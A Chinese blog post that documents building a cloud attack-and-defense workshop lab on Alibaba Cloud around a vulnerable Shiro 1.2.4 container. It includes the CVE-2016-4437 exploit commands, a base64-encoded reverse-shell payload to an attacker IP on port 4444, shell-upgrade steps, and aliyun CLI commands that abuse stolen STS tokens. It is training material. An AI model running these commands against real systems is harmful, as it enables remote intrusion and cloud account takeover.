记录 CyberSecurity Malaysia Workshop Lab 环境搭建过程。

<!--more-->

记录 CyberSecurity Malaysia Workshop Lab 环境搭建过程，可参考以下步骤快速搭建一个最小化的云上攻防场景。

攻击方面支持多种利用手段：

- Web 服务漏洞利用
- 反弹 Shell 利用
- 获取泄露云凭证并利用

防御方面支持应急响应全流程：

- 实时检测
- 快速止血
- 溯源分析（WAF、云安全中心、Actiontrail 日志等）

## ECS

### 反弹 shell 主机：rev

首先创建用于反弹 Shell 的 ECS，有公网 IP 即可，规格可以选择最低配（1C 0.5G 或 1C 1G）。安全组参考：



其中 4444 可替换为反弹 shell 监听的任意端口，22 用于 SSH 登录主机。

### 受害主机：workshop

随后创建受害主机 ECS（海外地域），需要公网 IP 与一定配置（建议不低于 2C 2G），建议使用 Debian 12.2 系统（避免内核版本不匹配问题）。安全组参考：



其中 8082 为 Web 服务端口，可任意替换。

配置主机环境（以 Debian 为例），安装 Docker（参考 https://docs.docker.com/engine/install/debian/）：

```bash
sudo apt-get update
sudo apt-get install ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/debian/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update

sudo apt-get install docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

编写 `docker-compose.yml`：

```yaml
services:
  web:
    image: vulhub/shiro:1.2.4
    ports:
      - "8082:8080"
```

启动服务：

```bash
docker compose up -d
```

#### 隐藏镜像名与 CMD 信息（可选）

```bash
docker run --name temp -d vulhub/shiro:1.2.4
docker cp temp:/shirodemo-1.0-SNAPSHOT.jar demo.jar
```

```Dockerfile
FROM vulhub/shiro:1.2.4

COPY demo.jar /demo-1.0-SNAPSHOT.jar

CMD ["java", "-jar", "/demo-1.0-SNAPSHOT.jar"]
```

```bash
docker build -t workshop .
```

```yaml
services:
  web:
    image: workshop:latest
    ports:
      - "8082:8080"
```

## WAF

购买海外 WAF 3 实例，在接入管理-云产品接入中接入 workshop ECS 的 8082 端口：



随后在日志服务中，开启该资产的日志记录：


在 Web 核心防护规则中，将本次攻击利用漏洞相关防护规则设为关闭或观察模式：



## SAS

购买云安全中心企业版，保有服务器选择 1 台，并取消勾选除日志分析之外的所有增值服务，日志分析使用最低配置（10 GB）：



随后在总览页面剩余授权数部分，点击管理授权，确保企业版授权绑定到 workshop 上：



在主机基本信息界面，关闭恶意主机行为防御、恶意网络行为防御，便于后续反弹 shell（注意关闭后需要一段时间生效）：



（可选）随后在漏洞管理页面点击一键扫描，仅需扫描应用漏洞，一段时间后可以发现受害主机上的应用漏洞：


## RAM

新建 RAM 用户 workshop，授予以下权限，供防守方人员登录：


新增 RAM 角色 workshop-test：


授权 ECS 只读访问权限：



将 RAM 角色 workshop-test 绑定到 ECS workshop 上：


## 攻防过程

PoC（基于 ysoserial）：

```bash
python3 CVE-2016-4437.py -u http://47.254.239.127:8082 -c whoami
```

脚本来自 [pizza-power/CVE-2016-4437](https://github.com/pizza-power/CVE-2016-4437)。

WAF 日志：


解码：



SAS 日志：



反弹 shell：

```bash
python3 CVE-2016-4437.py -u http://47.250.191.27:8082 -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4yNTAuMTc4LjEwNC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}"
```

接收 shell：



升级为全交互式 shell：

```bash
script -qc /bin/bash /dev/null
# <Ctrl+Z>
stty raw -echo;fg
reset
export TERM=xterm-256color
stty rows 51 cols 108
```

窃取 STS Token 云凭证：


云凭证利用 PoC：

```bash
aliyun ecs DescribeInstances | jq -r '.Instances.Instance[] | [.InstanceId, .InstanceName, .PublicIpAddress.IpAddress[], .Cpu, .Memory] | @tsv' | column -t
```


调用敏感 API：

```bash
aliyun ecs InvokeCommand --CommandId 123 --RegionId ap-southeast-3
```

Actiontrail 查询：


## 改进

- 使用 Terraform 一键搭建
